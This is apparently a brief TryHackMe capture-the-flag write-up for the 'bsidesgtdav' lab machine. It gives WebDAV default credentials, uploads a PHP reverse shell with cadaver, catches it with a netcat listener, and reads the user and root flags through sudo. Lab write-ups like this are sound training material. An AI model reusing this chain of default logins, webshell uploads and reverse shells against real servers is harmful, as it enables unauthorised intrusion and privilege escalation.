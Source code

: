 # bsidesgtdav
Tryhackme (bsidesgtdav) Write Up

webdav default login <br />

http://10.10.135.159/webdav

Username: webdav <br />
Password: xampp <br />


Using (*cadaver*) 

put reverse-shell.php <br />

http://10.10.135.159/webdav/reverse-shell.php

nc -lvnp 1234


![image](https://user-images.githubusercontent.com/80600420/147095168-66d56a92-9f49-49f8-9ddd-fbb13fbbdfcf.png)

/home/merlin <br />
$ cat user.txt <br />
```
449b40fe93f78a9***************
```
sudo -l <br />

![image](https://user-images.githubusercontent.com/80600420/147095353-32624d5f-1498-47ca-a022-5b5d8e1e5cc7.png)

sudo cat /root/root.txt

```
101101ddc16b0c***************
```
